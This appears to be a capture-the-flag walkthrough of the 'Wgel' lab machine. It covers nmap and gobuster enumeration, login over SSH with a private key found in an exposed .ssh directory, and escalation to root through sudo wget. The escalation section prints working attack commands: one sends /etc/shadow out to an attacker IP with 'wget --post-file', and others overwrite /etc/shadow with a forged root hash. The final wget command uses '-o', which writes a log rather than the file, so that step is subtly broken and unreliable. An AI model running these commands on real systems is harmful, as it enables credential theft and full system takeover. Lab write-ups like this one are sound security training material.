






# Wgel

## Nmap

```
┌──(kali㉿kali)-[~/Desktop/Wgel]
└─$ sudo nmap -sS -p- 10.10.141.131            
[sudo] password for kali: 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-11 12:01 EST
Nmap scan report for 10.10.141.131
Host is up (0.046s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 82.63 seconds
                                                                            
┌──(kali㉿kali)-[~/Desktop/Wgel]
└─$ sudo nmap -sSCV -p 22,80 10.10.141.131                   
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-11 12:03 EST
Nmap scan report for 10.10.141.131
Host is up (0.055s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.09 seconds
```

## Website





## Gobuster - Directory enumeration


```
┌──(kali㉿kali)-[~/Desktop/Wgel]
└─$ gobuster dir -u http://10.10.141.131 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.141.131
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/sitemap              (Status: 301) [Size: 316] [--> http://10.10.141.131/sitemap/]                                                                               
/server-status        (Status: 403) [Size: 278]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

## Website - sitemap




There is a couple of pages, one has a form that will be sent in a get request



## Gobuster - Directory enumeration again

```
┌──(kali㉿kali)-[~/Desktop/Wgel]
└─$ gobuster dir -u http://10.10.141.131/sitemap -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.141.131/sitemap
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.ssh                 (Status: 301) [Size: 321] [--> http://10.10.141.131/sitemap/.ssh/]                                                                          
/css                  (Status: 301) [Size: 320] [--> http://10.10.141.131/sitemap/css/]                                                                           
/fonts                (Status: 301) [Size: 322] [--> http://10.10.141.131/sitemap/fonts/]                                                                         
/images               (Status: 301) [Size: 323] [--> http://10.10.141.131/sitemap/images/]                                                                        
/index.html           (Status: 200) [Size: 21080]
/js                   (Status: 301) [Size: 319] [--> http://10.10.141.131/sitemap/js/]                                                                            
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

We can see a .ssh directory




We can save this private rsa key. With this key plus the username from the html comment we might be able to log in to ssh

## ssh

```
┌──(kali㉿kali)-[~/Desktop/Wgel]
└─$ chmod 600 id_rsa_wgel 

┌──(kali㉿kali)-[~/Desktop/Wgel]
└─$ ssh -i id_rsa_wgel jessie@10.10.141.131

```
```
jessie@CorpOne:~/Documents$ ll
total 12
drwxr-xr-x  2 jessie jessie 4096 oct 26  2019 ./
drwxr-xr-x 17 jessie jessie 4096 oct 26  2019 ../
-rw-rw-r--  1 jessie jessie   33 oct 26  2019 user_flag.txt
jessie@CorpOne:~/Documents$ cat user_flag.txt 

```

## Priv Esc

```
jessie@CorpOne:~$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```



This version will not work with this exploit. 
```wget: unrecognized option '--use-askpass=/tmp/tmp.2B5sh2tK6Z'```

We can still get a shell from WGET tho. We can alter any file by making wget write to it

### Escalation with wget by changing /etc/shadow

1. Get the content of /etc/shadow with wget and netcat

    On attacker machine

    ```
    ┌──(kali㉿kali)-[~]
    └─$ nc -lvnp 1234
    listening on [any] 1234 ...
    ```

    On the victim machine

    ```
    jessie@CorpOne:~$ sudo /usr/bin/wget --post-file=/etc/shadow 10.8.191.218:1234
    --2023-11-11 19:46:32--  http://10.8.191.218:1234/
    Connecting to 10.8.191.218:1234... connected.
    HTTP request sent, awaiting response... 200 No headers, assuming HTTP/0.9
    Length: unspecified
    Saving to: ‘index.html’

    index.html               [  <=>               ]       1  --.-KB/s    in 1,0s    

    2023-11-11 19:46:37 (1,05 B/s) - ‘index.html’ saved [1]
    ```

2. Change the content of the shadows file and add you hashed password to the file. 

    ```
    ┌──(kali㉿kali)-[~/Desktop/Wgel]
    └─$ openssl passwd -6 -salt 'mySalt' 'root'  
    $6$mySalt$4CIAkJdWazIaMpyMJTtPZrZtqdkECRZFbGN48NJRinfZgRkSWaiF6yIvmxnGOavEtieUxc7ZlDRfAcbn9LYHh0
    ```

    ```
    root:$6$mySalt$4CIAkJdWazIaMpyMJTtPZrZtqdkECRZFbGN48NJRinfZgRkSWaiF6yIvmxnGOavEtieUxc7ZlDRfAcbn9LYHh0:18195:0:99999:7:::
    daemon:*:17953:0:99999:7:::
    bin:*:17953:0:99999:7:::
    sys:*:17953:0:99999:7:::
    (...)
    ```

3. Create an http server Send the file to the machine and write to the /etc/shadow

    On the attacking machine

    ```                                                          
    ┌──(kali㉿kali)-[~/Desktop/Wgel]
    └─$ python3 -m http.server 1234              
    Serving HTTP on 0.0.0.0 port 1234 (http://0.0.0.0:1234/) ...
    10.10.141.131 - - [11/Nov/2023 12:55:34] "GET /wget_shadow HTTP/1.1" 200 -
    ```

    On the victim machine
    ```
    jessie@CorpOne:~$ sudo wget http://10.8.191.218:1234/wget_shadow -o /etc/shadow
    ```

    Switch into root with the password you just intruduced

    ```
    jessie@CorpOne:~$ su root
    Password: 
    root@CorpOne:/home/jessie# 
    ```